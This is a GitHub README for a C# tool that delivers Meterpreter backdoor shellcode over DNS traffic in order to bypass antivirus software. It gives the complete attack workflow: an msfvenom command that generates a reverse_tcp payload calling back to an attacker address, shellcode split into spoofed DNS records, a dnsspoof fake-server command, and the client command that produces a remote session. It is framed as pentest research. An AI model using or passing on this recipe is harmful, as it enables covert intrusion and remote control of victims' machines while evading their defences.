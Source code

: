 [![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg)]()

# NativePayload_DNS
C# code for Backdoor Payloads transfer by DNS Traffic and Bypassing Anti-viruses

Published by Damon Mohammadbagher

Warning: this code Published to explaining Anti-Viruses Vulnerability for Pentesters and Security Researchers

for more information and step by step please Visit these links:

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

Video Published by Damon Mohammadbagher (bbxc9x00x1f)

Bypassing Anti-Viruses with transfer Backdoor Payloads by DNS traffic

Video 1 :https://youtu.be/M4dbqRWRsUk

Bypassing AVs with NativePayload_DNS and Meterpreter_Payload_Detection

Video 2 : https://youtu.be/ngZl4PSfW6o

Video Description: Bypassing AVs with NativePayload_DNS.exe and Detecting Meterpreter Process by Meterpreter_Payload_Detection tool
 
 step 1:
 
 msfvenom C type payload in your kali linux
 
 msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 –f c > /root/Desktop/payload.txt
 
copy payloads from payload.txt file to dns.txt like this format:

root@kali:~# cat /root/Desktop/dns.txt

1.1.1.0 "0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"

1.1.1.1 "0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"

1.1.1.2 "0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"

1.1.1.3 "0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"

step 2: Make Fake DNS server in your kali linux

root@kali:~# dnsspoof -i eth0 -f /root/Desktop/dns.txt

 step 3:
 
 run code in client
 
 syntax: NativePayload_DNS.exe "1.1.1." 34 "192.168.1.50"
 
 finally you can bypass AVs and you have Meterpreter Session
 
 
 for more information and step by step please Visit these links:
 
Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

 
 Related Tool: 
 
 C# code for Backdoor Payloads transfer by IPv6 Address (AAAA) records and DNS Traffic also Bypassing Anti-viruses 
 https://github.com/DamonMohammadbagher/NativePayload_IP6DNS
 
 Related link:
 
 Bypass all anti-viruses by Encrypted Payloads with C#
 
 https://www.linkedin.com/pulse/bypass-all-anti-viruses-encrypted-payloads-c-damon-mohammadbagher?trk=pulse_spock-articles


 
 
